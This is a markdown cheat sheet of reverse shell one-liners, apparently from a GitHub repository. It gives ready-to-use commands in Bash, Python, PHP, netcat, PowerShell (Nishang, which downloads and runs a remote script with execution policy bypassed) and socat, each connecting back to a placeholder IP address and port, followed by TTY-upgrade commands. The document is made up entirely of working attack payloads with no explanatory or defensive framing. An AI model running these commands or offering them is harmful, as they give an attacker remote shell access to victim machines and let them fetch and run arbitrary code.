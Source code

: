 # Different Shells
## Bash
bash -i >& /dev/tcp/IP Address/Port 0>&1
## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP Address",Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## PHP
php -r '$sock=fsockopen("IP Address",Port);exec("/bin/sh -i <&3 >&3 2>&3");'
## NC 1
nc -e /bin/sh IP Address Port
## NC 2
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP Address Port >/tmp/f
## NC Windows
nc  IP Address Port -e cmd.exe
## Powershell - Nishang 1
powershell iex (New-Object Net.WebClient).DownloadString('http://IP Address/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IP Address -Port Port
## Powershell - Nishang 2
powershell.exe -exec Bypass -C "iex (New-Object Net.WebClient).DownloadString('http://IP Address/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse IP Address -Port Port"
## SOCAT 1
sudo socat file:`tty`,raw,echo=0 tcp-listen:Port
## SOCAT 2
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP Address:Port
# TTY Upgrades
## PYTHON
 * python -c 'import pty;pty.spawn("/bin/bash")'
 * python3 -c 'import pty;pty.spawn("/bin/bash")'
